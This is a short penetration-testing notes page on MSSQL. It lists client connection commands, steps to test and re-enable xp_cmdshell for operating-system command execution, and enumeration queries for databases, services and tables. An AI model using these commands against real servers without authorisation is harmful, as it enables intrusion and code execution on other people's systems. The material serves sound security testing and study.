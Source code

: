 ```yaml
---
layout: default
title: SQL
tags:
    - injection
    - SQLi
    - structured query language
---
```

# SQL
## CLI Tools
```shell
sqsh -S 10.10.10.10 -U <username> -P <password/hash>
```
- Supports Kerberos but don't know of way to use Windows authentication

## MSSQL
Impacket CLI Client
```shell
/usr/share/doc/python-impacket/examples/mssqlclient.py <user>@10.10.10.10
```
- `[[domain/]username[:password]@]10.10.10.10`
- If you provide the password as part of the target then it's treated as an LDAP query; use the prompt otherwise

Test `xp_cmdshell`
```sql
xp_cmdshell 'whoami'
GO
```

If disabled, attempt to enable
```sql
EXEC SP_CONFIGURE 'show advanced options', 1  -- only do this if it doesn't work regularly and it's actually an advanced option
RECONFIGURE  -- as above
EXEC SP_CONFIGURE 'xp_cmdshell', 1
RECONFIGURE
GO
```

List databases
```sql
SELECT name FROM master.sys.databases
```

List details (only runnable if db account has admin privileges)
```sql
SELECT  DSS.servicename,
        DSS.startup_type_desc,
        DSS.status_desc,
        DSS.last_startup_time,
        DSS.service_account,
        DSS.is_clustered,
        DSS.cluster_nodename,
        DSS.filename,
        DSS.startup_type,
        DSS.status,
        DSS.process_id
FROM    sys.dm_server_services AS DSS
```

List tables in database
```sql
USE <database name>
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE'
```

## PowerUpSQL
_Must run from Windows; issues with Powershell for Linux_

<https://github.com/NetSPI/PowerUpSQL>

todo